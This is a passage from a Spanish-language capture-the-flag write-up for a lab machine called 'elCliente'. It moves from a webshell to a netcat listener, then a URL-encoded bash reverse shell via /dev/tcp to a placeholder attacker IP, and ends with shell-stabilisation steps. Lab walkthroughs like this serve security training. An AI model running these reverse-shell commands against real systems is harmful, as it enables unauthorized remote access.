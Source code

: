 </p>

Solamente dale clic en donde dice **Link** y nos llevará directamente a nuestra **Webshell**.

Una vez ahí, ya podremos ejecutar comandos:

<p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura19.png">
</p>

Con esto listo, podemos mandarnos una **Reverse Shell** para ganar acceso principal a la máquina víctima.

Levanta un listener con **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Utiliza la siguiente **Reverse Shell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

Ejecútala en la **Webshell**:

<p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura20.png">
</p>

Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.170] 39716
bash: cannot set terminal process group (756): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ whoami
whoami
www-data
```
Estamos dentro.

Obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

```